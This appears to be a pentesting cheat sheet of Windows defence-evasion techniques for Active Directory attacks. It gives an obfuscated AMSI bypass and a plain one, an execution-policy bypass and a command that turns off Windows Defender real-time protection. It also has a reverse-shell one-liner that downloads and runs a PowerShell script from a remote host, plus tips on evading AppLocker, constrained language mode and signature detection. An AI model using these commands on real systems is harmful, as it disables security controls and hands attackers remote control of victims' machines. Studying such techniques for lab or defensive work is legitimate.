 # Bypass Technique
> bypass technique used on AD 

## ASMI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Execution Policy
bypass execution retriction
```powershell
powershell -ep bypass
```
## Window Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

revshell
```powershell
powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1/Invoke-PowerShellTcp.ps1'''); Power -Reverse -IPAddress 172.16.100.1 -Port 443
```

## Applocker
see app locker policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Constraint Language Mode
It cannot run with dot in the front, you could modified it by appendindg the function you want to call on the end of the ps file.

## Signature base
Changing the name of the ps file and/or functions